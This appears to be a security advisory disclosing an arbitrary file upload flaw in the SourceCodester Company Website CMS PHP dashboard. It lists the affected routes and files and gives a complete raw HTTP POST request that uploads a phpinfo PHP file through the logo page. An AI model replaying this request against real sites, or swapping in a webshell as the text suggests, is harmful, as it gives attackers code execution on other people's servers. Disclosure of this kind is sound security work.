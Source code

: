 ## Company Website CMS Dashboard Exists Arbitrary File Upload

[Company Website CMS](https://www.sourcecodester.com/php/15517/company-website-cms-php.html) Released by SourceCodester Has Arbitrary File Upload Vulnerability

Each file upload page in the background allows arbitrary file uploads. After the attacker enters the background, he can upload a webshell to control the server.

### Arbitrary file upload vulnerability exists in the following access paths

```
/dashboard/createblog
/dashboard/createservice
/dashboard/createportfolio
/dashboard/createslide
/dashboard/newtestimony
/dashboard/logo
```

The following is the corresponding file path

```
/dashboard/add-blog.php
/dashboard/add-portfolio.php
/dashboard/add-service.php
/dashboard/add-slider.php
/dashboard/add-testimony.php
/dashboard/add-user.php
/dashboard/editblog.php
/dashboard/editport.php
/dashboard/editservice.php
/dashboard/edituser.php
/dashboard/section-title.php
/dashboard/site-settings.php
/dashboard/static-home.php
/dashboard/updatecontact.php
/dashboard/updatelogo.php
```



### Take `/dashboard/logo` as an example

```
http://xxxx/dashboard/logo
```

![image-20220806192347786](Company%20Website%20CMS-FileUpload.assets/image-20220806192347786.png)

![image-20220806192512556](Company%20Website%20CMS-FileUpload.assets/image-20220806192512556.png)

```
POST /vogue/dashboard/logo HTTP/1.1
Host: 192.168.11.154
Content-Length: 483
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.11.154
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAyj41gZ8wBTnV1FL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.11.154/vogue/dashboard/logo
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=50tlte4hmi0glidrcg38mvpflk
Connection: close

------WebKitFormBoundaryAyj41gZ8wBTnV1FL
Content-Disposition: form-data; name="xfile"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryAyj41gZ8wBTnV1FL
Content-Disposition: form-data; name="ufile"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryAyj41gZ8wBTnV1FL
Content-Disposition: form-data; name="save"


------WebKitFormBoundaryAyj41gZ8wBTnV1FL--

```

The upload path can be seen in the response

![image-20220806192610183](Company%20Website%20CMS-FileUpload.assets/image-20220806192610183.png)

Access this path

![image-20220806192937588](Company%20Website%20CMS-FileUpload.assets/image-20220806192937588.png)



### Vulnerable code

![image-20220806193354210](Company%20Website%20CMS-FileUpload.assets/image-20220806193354210.png)

Upload the file directly without any filtering

## Link

https://www.sourcecodester.com/php/15517/company-website-cms-php.html
